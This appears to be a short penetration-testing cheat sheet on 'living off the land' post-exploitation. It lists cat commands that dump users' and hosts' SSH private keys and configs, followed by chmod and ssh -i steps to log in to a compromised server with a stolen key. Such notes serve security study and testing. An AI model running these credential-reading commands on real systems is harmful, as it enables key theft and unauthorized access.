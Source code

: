 # Living off the Land

## Password and Keys - SSH Keys

```
$ cat /home/*/.ssh/authorized_keys

$ cat /home/*/.ssh/config

$ cat /home/*/.ssh/identity.pub

$ cat /home/*/.ssh/identity

$ cat /home/*/.ssh/id_rsa.pub

$ cat /home/*/.ssh/id_rsa

$ cat /home/*/.ssh/id_dsa.pub

$ cat /home/*/.ssh/id_dsa

$ cat /etc/ssh/ssh_config

$ cat /etc/ssh/sshd_config

$ cat /etc/ssh/ssh_host*

$ cat /etc/ssh/ssh_host_dsa_key.pub

$ cat /etc/ssh/ssh_host_dsa_key

$ cat /etc/ssh/ssh_host_rsa_key.pub

$ cat /etc/ssh/ssh_host_rsa_key

$ cat /etc/ssh/ssh_host_key.pub

$ cat /etc/ssh/ssh_host_key
```

Once you were able to get the SSH Keys using the chmod command with octal permissions then authenticate through the compromised server

```
$ chmod 600 ssh_key

$ ssh -i ssh_key <user>@<IP>
```

---
## References

### Hacktricks

- [Hacktricks: Linux Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)